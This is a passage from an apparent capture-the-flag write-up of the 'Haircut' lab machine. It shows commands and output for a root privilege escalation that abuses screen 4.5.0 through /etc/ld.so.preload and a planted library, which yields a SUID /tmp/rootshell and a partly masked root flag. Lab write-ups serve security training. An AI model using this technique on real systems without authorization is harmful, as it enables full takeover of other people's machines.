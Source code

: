 ```

www-data@haircut:/etc$ cat ld.so.preload
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!

/tmp/libhax.so

```

Now I’ll get root to run something by running `screen -ls`:

```

www-data@haircut:/etc$ screen-4.5.0 -ls
No Sockets found in /tmp/screens/S-www-data.

```

`ld.so.preload` has been cleaned up:

```

www-data@haircut:/etc$ ls ld.so.preload
ls: cannot access 'ld.so.preload': No such file or directory

```

And the `rootshell` is now SUID:

```

www-data@haircut:/etc$ ls -l /tmp/rootshell 
-rwsr-xr-x 1 root root 16824 Sep  4 04:23 /tmp/rootshell

```

I can get a shell as root:

```

www-data@haircut:/etc$ /tmp/rootshell 
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

```

And print `root.txt`:

```

root@haircut:/root# cat root.txt
4cfa26d8************************

```

## Beyond Root
